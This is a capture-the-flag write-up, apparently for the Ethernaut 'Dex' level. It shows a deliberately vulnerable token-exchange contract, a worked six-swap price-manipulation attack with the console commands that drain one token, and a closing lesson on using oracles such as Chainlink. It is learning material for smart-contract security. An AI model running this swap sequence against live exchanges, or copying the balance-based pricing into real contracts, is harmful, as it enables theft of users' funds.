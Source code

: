 # Dex

> The goal of this level is for you to hack the basic [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) contract below and steal the funds by price manipulation.
>
> You will start with 10 tokens of `token1` and 10 of `token2`. The DEX contract starts with 100 of each token.
>
> You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
>
>  
>
> ### Quick note
>
> Normally, when you make a swap with an ERC20 token, you have to `approve` the contract to spend your tokens for you. To keep with the syntax of the game, we've just added the `approve` method to the contract itself. So feel free to use `contract.approve(contract.address, <uint amount>)` instead of calling the tokens directly, and it will automatically approve spending the two tokens by the desired amount. Feel free to ignore the `SwappableToken` contract otherwise.
>
>  Things that might help:
>
> - How is the price of the token calculated?
> - How does the `swap` method work?
> - How do you `approve` a transaction of an ERC20?

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## 攻击思路

swap的逻辑
$$
((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)))
$$
我初始有10个token1，10个token2，合约有100个token1，100个token2。



第一次swap，我用10个token1换10个token2，因为
$$
(10*100)/100 = 10
$$
第一次swap后，我就有0个token1，20个token2；合约有110个token1，90个token2。



第二次swap，我用20个token2换24个token1，因为
$$
(20*110)/90 = 24
$$
第二次swap后，我就有24个token1，0个token2；合约有86个token1，110个token2。



第三次swap，我用24个token1换30个token2，因为
$$
(24*110)/86 = 30
$$
第三次swap后，我就有0个token1，30个token2；合约有110个token1，80个token2。



第四次swap，我用30个token2换41个token1，因为
$$
(30*110)/80 = 41
$$
第四次swap后，我就有41个token1，0个token2；合约有69个token1，110个token2。



第五次swap，我用41个token1换个token2，因为
$$
(41*110)/69 = 65
$$
第五次swap后，我就有0个token1，65个token2；合约有110个token1，45个token2。



第六次swap，我用45个token2换个110token1，因为
$$
(45*110)/45 = 110
$$
第六次swap后，我就有110个token1，20个token2；合约有0个token1，90个token2。

至此，经过6轮，合约中的token1已经被掏空了。

## 攻击流程

首先，在代币中授权给Dex，

```js
await contract.approve(contract.address,110)

await contract.swap(await contract.token1(), await contract.token2(),10)

await contract.swap(await contract.token2(), await contract.token1(),20)

await contract.swap(await contract.token1(), await contract.token2(),24)

await contract.swap(await contract.token2(), await contract.token1(),30)

await contract.swap(await contract.token1(), await contract.token2(),41)

await contract.swap(await contract.token2(), await contract.token1(),45)
```

成功！

The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts.

You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the the wrong price.

The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. This is why we need [oracles](https://betterprogramming.pub/what-is-a-blockchain-oracle-f5ccab8dbd72?source=friends_link&sk=d921a38466df8a9176ed8dd767d8c77d). Oracles are ways to get data into and out of smart contracts. We should be getting our data from multiple independent decentralized sources, otherwise we can run this risk.

[Chainlink Data Feeds](https://docs.chain.link/docs/get-the-latest-price) are a secure, reliable, way to get decentralized data into your smart contracts. They have a vast library of many different sources, and also offer [secure randomness](https://docs.chain.link/docs/chainlink-vrf), ability to make [any API call](https://docs.chain.link/docs/make-a-http-get-request), [modular oracle network creation](https://docs.chain.link/docs/architecture-decentralized-model), [upkeep, actions, and maintainance](https://docs.chain.link/docs/kovan-keeper-network-beta), and unlimited customization.

[Uniswap TWAP Oracles](https://uniswap.org/docs/v2/core-concepts/oracles/) relies on a time weighted price model called [TWAP](https://en.wikipedia.org/wiki/Time-weighted_average_price#). While the design can be attractive, this protocol heavily depends on the liquidity of the DEX protocol, and if this is too low, prices can be easily manipulated.

Here is an example of getting data from a Chainlink data feed (on the kovan testnet):

```solidity
pragma solidity ^0.6.7;

import "@chainlink/contracts/src/v0.6/interfaces/AggregatorV3Interface.sol";

contract PriceConsumerV3 {

    AggregatorV3Interface internal priceFeed;

    /**
     * Network: Kovan
     * Aggregator: ETH/USD
     * Address: 0x9326BFA02ADD2366b30bacB125260Af641031331
     */
    constructor() public {
        priceFeed = AggregatorV3Interface(0x9326BFA02ADD2366b30bacB125260Af641031331);
    }

    /**
     * Returns the latest price
     */
    function getLatestPrice() public view returns (int) {
        (
            uint80 roundID, 
            int price,
            uint startedAt,
            uint timeStamp,
            uint80 answeredInRound
        ) = priceFeed.latestRoundData();
        return price;
    }
}
```

[Try it on Remix](https://remix.ethereum.org/#version=soljson-v0.6.7+commit.b8d736ae.js&optimize=false&evmVersion=null&gist=0c5928a00094810d2ba01fd8d1083581)
